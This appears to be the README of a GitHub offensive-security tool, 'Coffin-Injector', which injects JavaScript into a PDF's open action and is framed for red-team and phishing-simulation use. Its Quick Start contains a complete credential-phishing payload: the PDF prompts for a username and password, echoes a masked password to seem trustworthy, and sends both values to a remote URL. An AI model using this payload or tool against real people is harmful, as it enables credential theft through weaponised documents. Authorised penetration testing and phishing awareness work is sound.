 # Coffin-Injector

A simple Python utility for injecting JavaScript payloads into PDF files for use in red team assessments, phishing simulations, or client-side testing.

## ✨ Features

- Injects custom JavaScript payloads into the `/OpenAction` of a PDF file
- Allows full control over the JavaScript logic (e.g., alerts, credential prompts, redirects)
- Maintains original PDF structure and readability

## ⚙ Requirements

- Python 3.7+
- `PyPDF2`

## 🚀 Quick Start

### Step 1: Set up a Virtual Environment

```bash
python3 -m venv venv
source venv/bin/activate
```

### Step 2: Install Dependencies

```bash
pip install PyPDF2
```

### Step 3: Run Coffin-Injector

```bash
python3 coffin-injector.py -i Resume.pdf -o poc.pdf -p 'var u=app.response("This document requires login to view.\rPlease enter your username:");var p=app.response("Please enter your password:","Password","",true);var mask=p.length>2?p[0]+"*".repeat(p.length-2)+p[p.length-1]:p;app.alert("This PDF has interactive features and should be opened in Adobe Acrobat for full compatibility.\r\rLogin:\rUsername: "+u+"\rPassword: "+mask);app.launchURL("https://example.com/?u="+escape(u)+"&p="+escape(p));'
```

### Explanation of Payload

This example payload prompts the user for their username and password using `app.response()` (an Acrobat JavaScript method). The password is masked and then displayed back to the user in an alert to appear more trustworthy. Finally, the payload sends the credentials via `app.launchURL()` to a specified server.

> Note: This payload relies on Adobe Acrobat features. Some browser-based PDF viewers or restrictive readers may not support it.

## 📁 Arguments

| Argument          | Description                       |
| ----------------- | --------------------------------- |
| `-i`, `--input`   | Path to the input PDF file        |
| `-o`, `--output`  | Path for the output (patched) PDF |
| `-p`, `--payload` | JavaScript payload to inject      |

## 📁 Default Payload

If no payload is supplied, the default behaviour is to inject:

```javascript
app.alert("PDF viewer allows XSS");
```

## 📝 License

This project is licensed under the [MIT License](LICENSE).

---

**Disclaimer:** For educational and authorised security testing purposes only.

